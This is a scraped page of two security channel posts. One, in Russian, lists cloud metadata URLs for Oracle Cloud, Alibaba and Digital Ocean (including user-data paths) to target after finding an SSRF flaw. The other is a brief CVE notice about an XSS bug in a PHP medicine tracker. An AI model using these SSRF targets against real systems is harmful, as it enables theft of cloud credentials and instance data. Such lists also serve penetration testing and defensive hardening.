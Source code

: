 # elliot_cybersec
`2023-04-26`

<blockquote>
☁️ Адреса облачных ресурсов, для обращения через SSRF | Привет, друг. На связи Эллиот

Когда вы нашли SSRF, то следующий ваш шаг, это попытаться получить доступ к внутренним ресурсам и найти там что-то ценное.

И если для AWS довольно много примеров и статей, то что делать с другими облачными ресурсами? Ниже приведён список интересных URL адресов для Oracle Cloud, Alibaba и Digital Ocean.

Oracle Cloud:

http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/

Alibaba:

http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id

Digital Ocean:

http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

&#35;Web &#35;SSRF &#35;Cloud
</blockquote>

---

# cibsecurity
`2023-04-26`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30111

<blockquote>
‼ CVE-2023-30111 ‼

Medicine Tracker System in PHP 1.0.0 is vulnerable to Cross Site Scripting (XSS).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---
